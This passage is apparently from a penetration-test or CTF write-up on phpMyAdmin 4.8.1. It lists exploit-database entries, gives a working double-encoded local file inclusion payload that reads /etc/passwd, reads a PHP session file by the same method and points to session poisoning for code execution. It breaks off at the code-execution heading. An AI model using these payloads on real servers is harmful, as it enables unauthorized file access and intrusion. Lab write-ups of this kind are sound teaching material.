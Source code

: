 ```
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (php/webapps/44924.txt)
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (php/webapps/44928.txt)
phpMyAdmin 4.8.1 - Remote Code Execution (RCE) (php/webapps/50457.py)
```

### LFI Vulnerability

**Vulnerable Parameter**: `?target=`

**PoC Payload**:

```
/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![LFI Success](images/Pasted%20image%2020251012145821.png)

**Result**: Successfully read `/etc/passwd` file.

### Session File Analysis

**Session Path**: `/var/lib/php/session/sess_[SESSION_ID]`

**Full Path**:

```
/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_rnd2oi2hlqaqnuoqgvvikqd4fcb7fkd2
```

![Session File](images/Pasted%20image%2020251012150749.png)

**Key Finding**: SQL queries are stored in session files, enabling session poisoning for RCE.

## Remote Code Execution
